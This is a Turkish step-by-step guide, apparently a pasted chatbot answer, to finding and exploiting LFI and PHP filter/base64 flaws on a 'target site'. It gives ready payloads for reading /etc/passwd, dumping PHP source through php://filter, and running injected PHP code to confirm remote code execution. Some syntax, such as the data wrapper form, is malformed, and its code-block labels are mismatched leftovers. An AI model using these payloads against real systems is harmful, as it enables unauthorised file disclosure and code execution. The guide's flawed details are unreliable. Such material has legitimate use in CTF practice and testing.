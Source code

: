 PHP base64 filter bypass açığının olup olmadığını anlamak için bazı testler yapabilirsin. CTF veya gerçek hayatta bir web uygulamasında bunu nasıl tespit edebileceğini adım adım anlatayım.

# 1. Hedef Sitenin Dosya Dahil Etme (LFI) Açığı Olup Olmadığını Test Et  
Bu saldırıyı kullanabilmek için hedef sistemde bir LFI (Local File Inclusion - Yerel Dosya Dahil Etme) açığı olması gerekir. Önce aşağıdaki gibi klasik LFI testlerini yaparak sistemin dosya çağırıp çağırmadığını kontrol et:  

http://example.com/index.php?page=/etc/passwd

css
Copy
Edit

Eğer `/etc/passwd` içeriği ekrana dökülüyorsa, LFI açığı vardır.  

Alternatif olarak şu denemeleri yapabilirsin:  

http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php

markdown
Copy
Edit

Bu isteğin cevabı **Base64 olarak encode edilmiş PHP kodu** döndürüyorsa, `PHP://filter` aktif demektir!  

Base64 çıktısını çözerek `index.php` içeriğini okuyabilirsin:  

echo "Base64_VERİSİ" | base64 -d

yaml
Copy
Edit

---

# 2. Base64 Filter Bypass İçin Test Yap  
Eğer yukarıdaki deneme başarılı olduysa, aşağıdaki gibi bir payload deneyerek sistemin Base64 kodlanmış veriyi çözüp çalıştırıp çalıştırmadığını test edebilirsin:  

http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgZWNobyAnVEVTVCc7ID8+

php
Copy
Edit

**Bu ne yapıyor?**  
- `PD9waHAgZWNobyAnVEVTVCc7ID8+` → `<?php echo 'TEST'; ?>` anlamına gelir.  
- Eğer tarayıcıda **"TEST"** yazısını görürsen, Base64 kodu çözüldü ve çalıştırıldı demektir!  

---

# 3. `.php` Uzantısı ile Bypass Denemesi Yap  
Bazı sistemler, dosya çağırırken uzantı kontrolü yapar. PHP’nin Base64 decoder’ı uzantıyı yok saydığı için `.php` ekleyerek test edebilirsin:  

http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgcGhwaW5mbygpOyA/Pg==.php

markdown
Copy
Edit

Eğer PHP kodu çalışırsa, sistemde ciddi bir açık vardır ve **RCE (Remote Code Execution - Uzak Kod Çalıştırma) mümkündür!**  

---

# 4. Gerçek Hayatta Bu Açığı Nasıl Bulurum?  

## **LFI Açığını Test Et:**  
- `page=../../../../etc/passwd` gibi denemeler yap.  
- Eğer dosya içeriği dökülüyorsa, büyük ihtimalle açıktır.  

## **PHP Filter Testi Yap:**  
- `php://filter/convert.base64-encode/resource=index.php` ile PHP dosyalarını encode edip okuyabiliyor musun?  
- Eğer dönen değer Base64 formatındaysa, `filter` çalışıyor demektir.  

## **Base64 Decode ile Test Et:**  
- `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgcGhwaW5mbygpOyA/Pg==.php` gibi payloadlar dene.  
- Eğer PHP kodu çalışıyorsa, **filtre açığı var!**  
